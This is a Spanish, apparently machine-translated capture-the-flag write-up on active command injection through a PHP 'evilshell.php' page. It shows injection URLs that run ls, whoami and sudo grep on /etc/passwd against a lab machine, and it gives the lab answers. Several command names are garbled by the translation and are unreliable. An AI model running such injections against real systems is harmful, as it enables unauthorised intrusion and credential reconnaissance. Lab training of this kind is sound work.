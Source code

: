 Sabemos que la inyección de comando activo ocurre cuando puede ver la respuesta de la llamada al sistema. En el código anterior, la función `passthru()`es en realidad lo que está haciendo todo el trabajo aquí. Está pasando la respuesta directamente al documento para que pueda ver los frutos de su trabajo allí mismo. Como sabemos eso, podemos repasar algunos comandos útiles para tratar de enumerar la máquina un poco más. La llamada a la función aquí `passthru()`puede no ser siempre lo que sucede detrás de escena, pero sentí que era la forma más fácil y menos complicada de demostrar la vulnerabilidad.

**Comandos para probar**

**linux**

- quién soy
- identificación
- ifconfig/dirección IP
- uname -a
- pd-ef

**ventanas**

- quién soy
- ver
- ipconfig
- lista de tareas
- netstat-an

Para completar las preguntas a continuación, vaya a [http://MACHINE_IP/evilshell.php](http://MACHINE_IP/evilshell.php) .

1. ¿Qué extraño archivo de texto hay en el directorio raíz del sitio web?

`http://10.10.175.234/evilshell.php?commandString=ls+-la`

```
total 28 drwxr-x--- 4 www-data www-data 4096 Jun 3 18:13 . drwxr-xr-x 3 root root 4096 May 18 15:21 .. drwxr-x--- 2 www-data www-data 4096 May 21 03:04 css -rw-r----- 1 www-data www-data 17 May 22 13:14 drpepper.txt -rw-r----- 1 www-data www-data 1723 May 26 01:52 evilshell.php -rw-r----- 1 www-data www-data 2200 May 21 03:04 index.php drwxr-x--- 2 www-data www-data 4096 May 21 03:04 js
```

`drpepper.txt`

2. ¿Cuántos usuarios que no son root/no son de servicio/no son daemon hay?

`sudo grep '/home/' /etc/passwd | cut -d: -f1`

`http://10.10.175.234/evilshell.php?commandString=sudo+grep+%27%2Fhome%2F%27+%2Fetc%2Fpasswd+%7C+cut+-d%3A+-f1`

`sudo grep '/bin/bash' /etc/passwd | cut -d: -f1`

`http://10.10.175.234/evilshell.php?commandString=sudo+grep+%27%2Fbin%2Fbash%27+%2Fetc%2Fpasswd+%7C+cut+-d%3A+-f1`

`0`

3. ¿Con qué usuario se ejecuta esta aplicación?

`http://10.10.175.234/evilshell.php?commandString=whoami`
